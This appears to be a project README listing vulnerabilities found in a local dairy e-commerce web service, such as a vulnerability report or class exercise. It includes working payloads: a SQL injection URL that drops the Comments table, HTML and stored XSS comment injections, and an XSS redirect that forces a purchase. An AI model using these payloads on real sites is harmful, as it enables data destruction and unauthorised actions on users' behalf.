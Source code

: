# e-Commerce-App
Web app front-end developed  using HTML5 and CSS while back-end data is extracted from  existing APIs with  JavaScript/xml.

N01:	SQL Injection is possible within the search section.

	http://localhost:8188/DairyService.svc/search?term=jbon007%27;%20drop%20table%20Comments;%20--
	

N02:	HTML Injection is possible within the comments section.

	POST http://localhost:8188/DairyService.svc/comment?name=HTML%20Injected
	Content-Type: application/json
	Content-Length: 50
	Host: http://localhost:8188

	<style>*{background-color:pink}</style>


N03: 	HTML image Injection is possible within the comments section.

	POST http://localhost:8188/DairyService.svc/comment?name=Image%20Injected
	Content-Type: application/json
	Content-Length: 100
	Host: http://localhost:8188


	<img src= "https://i1.pickpik.com/photos/388/52/975/cow-funny-ruminant-cute-preview.jpg">


N04: 	XSS (user-supplied script) Injection is possible within the comments section.

	POST http://localhost:8188/DairyService.svc/comment?name=XSS
	Content-Type: application/json
	Content-Length: 50
	Host: http://localhost:8188


	<script>alert("Dont Stay Safe. Do not Wash your hands.")</script>


N05:	CSRF (cross-site request forgery) attacks could be mounted on the service if a user who has already
	logged into his/her account within the website clicks onto a URL which was altered on the website 
	to perform an action which the user did not intend to do such as linking the user to the "buy now" 
	button thus causing the user to purchase an item unintentionally. 

N06:
	POST http://localhost:8188/DairyService.svc/comment?name=XSS
	Content-Type: application/json
	Content-Length: 50
	Host: http://localhost:8188

	<script>window.location = "http://localhost:8189/Service.svc/buy?id=jbon007"</script>
